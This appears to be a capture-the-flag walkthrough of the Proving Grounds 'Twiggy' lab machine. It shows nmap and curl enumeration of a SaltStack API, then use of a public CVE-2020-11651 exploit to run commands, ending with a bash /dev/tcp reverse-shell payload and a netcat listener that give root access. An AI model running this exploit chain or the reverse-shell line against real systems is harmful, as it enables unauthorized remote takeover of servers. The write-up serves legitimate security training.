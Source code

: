 <h2>Recon</h2>
  
  <h3>PortScan</h3>
  
  >command: sudo nmap -A 192.168.87.62 -p- -T4 -v
```
# Nmap 7.93 scan initiated Sat Jan  7 10:06:55 2023 as: nmap -A -v -T4 -p- -oN twiggy 192.168.242.62
Nmap scan report for 192.168.242.62
Host is up (0.44s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|5.X (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:5.1
Aggressive OS guesses: Linux 3.10 - 3.12 (89%), Linux 4.4 (89%), Linux 4.9 (89%), Linux 3.10 - 3.16 (86%), Linux 3.10 - 4.11 (85%), Linux 3.11 - 4.1 (85%), Linux 3.2 - 4.9 (85%), Linux 5.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.003 days (since Sat Jan  7 10:08:04 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   698.61 ms 192.168.49.1
2   698.68 ms 192.168.242.62

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  7 10:12:07 2023 -- 1 IP address (1 host up) scanned in 312.17 seconds
```

We have 6 ports opened here, port 22 which runs ssh, port 53 which runs domain, port 80,8000 which runs http, port 4505,4506 which runs zmtp. We won't waste our time on port 80 because I din't find anything interesting there. This means our enumeration will be focused more on port 8000.


<h2>Enumeration</h2>

  Going to the webpage should get you something like this

![image](https://user-images.githubusercontent.com/126628077/222027526-326df050-f1bc-47c9-8d0e-e84616a9ad5e.png)

Lets try checking the header using curl

>command: curl -v http://192.168.87.62:8000/

![image](https://user-images.githubusercontent.com/126628077/222029279-e15a72ea-5f99-463c-83f5-3d482a21fc86.png)

From the screenshot above we can see that it is running salt-api/3000-i, checking it up online I found this

![image](https://user-images.githubusercontent.com/126628077/222030012-7a1b8f63-701e-4ee3-950e-80e5b5c4c8b2.png)

So,this means there is an exploit for it

![image](https://user-images.githubusercontent.com/126628077/222030472-1629245e-19da-4672-85e7-1db9ea7fa15c.png)

>Link:https://github.com/jasperla/CVE-2020-11651-poc

Now, lets clone this repository and install the necessary requirements

```
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ git clone https://github.com/jasperla/CVE-2020-11651-poc
Cloning into 'CVE-2020-11651-poc'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 12), reused 26 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 8.61 KiB | 8.61 MiB/s, done.
Resolving deltas: 100% (12/12), done.
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ cd CVE-2020-11651-poc 
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/…/PG/pg_practice/Twiggy/CVE-2020-11651-poc]
└─$ pip3 install salt
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: salt in /usr/local/lib/python3.11/dist-packages (3005.1)
Requirement already satisfied: Jinja2 in /usr/lib/python3/dist-packages (from salt) (3.0.3)
Requirement already satisfied: jmespath in /usr/local/lib/python3.11/dist-packages (from salt) (1.0.1)
Requirement already satisfied: msgpack!=0.5.5,>=0.5 in /usr/lib/python3/dist-packages (from salt) (1.0.3)
Requirement already satisfied: PyYAML in /usr/lib/python3/dist-packages (from salt) (6.0)
Requirement already satisfied: MarkupSafe in /usr/lib/python3/dist-packages (from salt) (2.1.1)
Requirement already satisfied: requests>=1.0.0 in /usr/lib/python3/dist-packages (from salt) (2.28.1)
Requirement already satisfied: distro>=1.0.1 in /usr/lib/python3/dist-packages (from salt) (1.8.0)
Requirement already satisfied: contextvars in /usr/local/lib/python3.11/dist-packages (from salt) (2.4)
Requirement already satisfied: psutil>=5.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (5.9.4)
Requirement already satisfied: pyzmq<=20.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (20.0.0)
Requirement already satisfied: pycryptodomex>=3.9.8 in /usr/lib/python3/dist-packages (from salt) (3.11.0)
Requirement already satisfied: immutables>=0.9 in /usr/local/lib/python3.11/dist-packages (from contextvars->salt) (0.19)

```

Now that we are done with that, lets go ahead and exploit this vulnerability


<h2>Exploitation</h2>

So, we are going to run this exploit and see what happens

>command:python3 exploit.py --master 192.168.223.62  --exec whoami 

![image](https://user-images.githubusercontent.com/126628077/222032537-6f4f6ee1-5ba2-40ed-950f-5c7ac6a35815.png)

since the "whoami" command got executed successfully, this means we can go ahead to create a reverse shell so we can get a shell back on our kali

We'll be using 2 different terminals, on the first terminal you run the exploit while on the second terminal you set up your netcat listener

>command (first termminal):python3 exploit.py --master 192.168.87.62  --exec "bash -i >& /dev/tcp/192.168.49.87/1234 0>&1"
>command (second terminal):rlwrap nc -lvnp 80

_Ensure you change the IP to your IP address_

![image](https://user-images.githubusercontent.com/126628077/222035586-a0fbc95a-1fea-4299-b39f-fd75b6802081.png)

![image](https://user-images.githubusercontent.com/126628077/222035626-72755ff8-ef16-4f28-9180-bf900940d35e.png)

Boom!!! We got a shell as root.

Now that we have gotten the root shell our work is done





















